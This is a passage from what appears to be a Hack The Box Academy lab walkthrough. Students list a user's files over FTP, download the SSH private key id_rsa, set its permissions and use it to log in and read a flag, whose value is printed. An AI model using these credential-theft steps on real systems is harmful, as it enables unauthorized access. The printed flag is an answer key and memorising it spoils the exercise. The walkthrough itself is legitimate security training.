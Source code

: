 ```shell
ls -al
ls .ssh/
cd .ssh
get id_rsa
```

```
ftp> ls -al

200 PORT command successful
150 Opening ASCII mode data connection for file list
drwxr-xr-x   4 ceil     ceil         4096 Nov 10  2021 .
drwxr-xr-x   4 ceil     ceil         4096 Nov 10  2021 ..
-rw-------   1 ceil     ceil          294 Nov 10  2021 .bash_history
-rw-r--r--   1 ceil     ceil          220 Nov 10  2021 .bash_logout
-rw-r--r--   1 ceil     ceil         3771 Nov 10  2021 .bashrc
drwx------   2 ceil     ceil         4096 Nov 10  2021 .cache
-rw-r--r--   1 ceil     ceil          807 Nov 10  2021 .profile
drwx------   2 ceil     ceil         4096 Nov 10  2021 .ssh
-rw-------   1 ceil     ceil          759 Nov 10  2021 .viminfo
226 Transfer complete
ftp> ls .ssh/
200 PORT command successful
150 Opening ASCII mode data connection for file list
-rw-rw-r--   1 ceil     ceil          738 Nov 10  2021 authorized_keys
-rw-------   1 ceil     ceil         3381 Nov 10  2021 id_rsa
-rw-r--r--   1 ceil     ceil          738 Nov 10  2021 id_rsa.pub
ftp> cd .ssh
250 CWD command successful
ftp> get id_rsa
local: id_rsa remote: id_rsa
200 PORT command successful
150 Opening BINARY mode data connection for id_rsa (3381 bytes)
226 Transfer complete
3381 bytes received in 0.00 secs (2.6408 MB/s)
```

Subsequently, students need to set the permissions `600` to the private key before using it:

Code: shell

```shell
chmod 600 id_rsa
```

```
┌─[eu-academy-1]─[10.10.14.45]─[htb-ac413848@htb-xx24xxdnig]─[~/ipmiPwner]
└──╼ [★]$ chmod 600 id_rsa
```

At last, students need to use the private key to connect to the SSH service on the spawned target machine as the user `ceil` and print out the flag file at `/home/flag/flag.txt` to attain `HTB{7nrzise7hednrxihskjed7nzrgkweunj47zngrhdbkjhgdfbjkc7hgj}`:

Code: shell
